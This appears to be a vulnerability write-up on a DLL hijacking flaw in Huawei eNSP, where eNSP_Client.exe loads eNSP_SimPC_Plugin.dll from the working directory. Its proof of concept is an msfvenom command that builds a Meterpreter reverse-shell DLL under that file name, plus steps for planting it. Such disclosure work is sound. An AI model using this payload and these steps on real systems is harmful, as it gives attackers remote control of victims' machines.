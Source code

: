 Target of penetration: Huawei Technology Co., Ltd
Infiltration of assets: Huawei eNSP
Affected version: Huawei eNSP V100R003C00SPC100
DLL: eNSP_SimPC_Plugin.dll
Affected Process: eNSP_Client.exe
Tested on: Windows 10 Pro x64 

Description:
NSP is a scalable and graphical network simulation tool platform provided by Huawei, mainly used for software simulation of enterprise network routers and switches, perfectly presenting real device scenarios and supporting large-scale network simulation, providing users with the opportunity to simulate and learn network technology without real devices.
Huawei eNSP_ There is a security vulnerability in V100R003C00SPC100 version, which is caused by the program loading eNSP from the current working directory_ SimPC_ Plugin.dll file. Attackers can exploit this vulnerability to carry out DLL hijacking attacks.

Reproduction ideas:
When the administrator runs eNSP, it will call the eNSP named above_ SimPC_ Plugin.dll file, when we replace this file with a backdoor, we call the backdoor DLL to execute

Steps to reproduce:
1. Prepare a backdoor file called eNSP_ SimPC_ Plugin.dll
2. Replace the original eNSP with the backdoor file_ SimPC_ Plugin.dll
3. Run eNSP, the backdoor is successfully called and executed to go online

PoC Code:
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f dll -o eNSP_SimPC_Plugin.dll

Screenshots:

![image](https://github.com/12xw/eNSP/assets/94727536/f2e83f30-6dab-4fca-a2b7-42179d86ed28)
![image](https://github.com/12xw/eNSP/assets/94727536/02394ad9-ce59-4644-ad16-9b38aab0985d)
![image](https://github.com/12xw/eNSP/assets/94727536/a333ada1-23da-47a4-b463-2043ff2ebccf)

